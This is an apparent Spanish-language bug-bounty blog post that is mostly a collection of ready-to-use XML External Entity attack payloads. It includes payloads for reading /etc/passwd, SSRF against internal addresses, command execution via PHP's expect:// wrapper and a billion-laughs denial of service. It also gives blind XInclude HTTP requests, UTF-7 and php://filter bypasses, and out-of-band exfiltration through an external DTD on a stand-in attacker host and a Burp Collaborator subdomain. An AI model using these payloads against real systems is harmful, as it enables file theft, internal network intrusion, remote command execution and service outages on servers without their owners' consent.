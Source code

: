 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques XXE (XML External Entity) son vulnerabilidades que surgen en las aplicaciones que analizan las entradas XML. Gracias a esto un atacante podría alterar los datos XML en la peticion para ejecutar un ataque.

# Table of Contents
1. [Peligros en los ataques XXE](#PeligrosXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE a LFI](#XXEaLFI)<br>
   2.2. [XXE a SSRF](#XXEaSSRF)<br>
   2.3. [XXE a RCE](#XXEaRCE)<br>
   2.4.  [XXE a DOS](#XXEaDOS)
6. [Blind en peticion](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### 1- Peligros en los ataques XXE <a name="PeligrosXXE"></a>
- **Exfiltrar informacion critica:**<br>
Seria posible obtener archivos internos del servidor incluso en servicios de la red local, lo cual es peligroso.<br>
Ejemplo: 
[XXE a LFI](#XXEaLFI)
- **Enumerar puertos y dominios en direcciones internas a la red:**<br>
A través de las peticiones ir enumerando la red<br>
Ejemplo: 
[XXE a SSRF](#XXEaSSRF)
- **Enumerar puertos abiertos en otras direcciones extrernas**<br>
 Hacer una enumeracion de puertos mediante peticiones.
- **Ejecutar codigo:** <br>
Si el servidor dispone del modulo "expect" de PHP, seria posible ejecutar codigo y poder llegar a poder ejecutar comandos.<br>
Ejemplo: 
[XXE a RCE](#XXEaRCE)
- **Denegacion del servicio**
Causa una denegacion de servicio mediante repetidas llamadas en las funciones entitys<br>
Ejemplo: 
[XXE a DOS](#XXEaDOS)

---

### 2- XXE payloads <a name="XXEpayloads"></a>
**2.1- LFI Test** <a name="XXEaLFI"></a><br>
Ver archivos internos del servidor

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**2.2- XXE a SSRF** <a name="XXEaSSRF"></a><br>
Enumerar la red local del servidor
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**2.3- XXE a RCE** <a name="XXEaRCE"></a><br>
Abusando del modulo expect de php para ejecutar comandos
(Se requiere tener este modulo en el servidor)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```
**2.4- XXE a DOS** <a name="XXEaDOS"></a><br>
Causa una denegacion de servicio mediante repetidas llamadas en las funciones de las entity's
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
---

### 3- XXE blind en peticion <a name="BlindXXE"></a>
**3.1- Ver si existe una XXE sin que se vea en la peticion**

Una forma de identificar una XML blind en una petición: Si la aplicación incrusta los datos enviados en un documento XML y luego se analiza el documento como pasa en una solicitud SOAP de backend. Podemos probar a inyectar XInclude que es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos.<br>
Ejemplo:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **3.2- Tambien se podria usar esto en caso de que sea blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://web-atacante.com"/></foo>&storeId=1
```

**3.3- Blind XXE test (Cuando no devuelve valores)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdominio.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### 4- XXE bypass <a name="XXEBypass"></a>
**4.1- XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://web-atacante.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**4.2- Access Control bypass (cargando datos confidenciales)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://web-vulnerable.com/config.php">]>
<foo><result>&cargar;</result></foo>
```

---

### 5- Ataques XXE Out-Of-Band: <a name="OutOFBand"></a>

**5.1- EJEMPLO 1**
- Se inyecta en el valor &xxe; en uno de los valores xml que se envian

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://web-atacante.com"> ]>
```

**5.2- EJEMPLO 2**
- Payload que incluiremos completo en el valor xml que se envia. Hará una peticion a la web del atacante, asi podremos saber si realmente procesa la informacion que le mandamos.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com"> %xxe; ]>
```

**5.3- EJEMPLO 3**
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- Inyeccion XML antes de los valores de la pagina, inyectará el codigo de cositas.dtd en la pagina

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.4- EJEMPLO 4**
- XXE BLIND basado en mensaje de error
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///estonoexiste/%file;'>">
%eval;
%error;
```

- Inyeccion XML en la pagina, inyectará el codigo de cositas.dtd 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.5- EJEMPLO 5**
- Explotando una XXE abusando de los archivos DTD del sistema, en el archivo llama a ISOamso, usaremos esa variable para explotar la XXE creando un xml personalizado que realice la funcion de llamar al archivo de /etc/passwd que es el objetivo. 

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///estonoexiste/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;errormensaje;
'>%el_dtd;]>
```
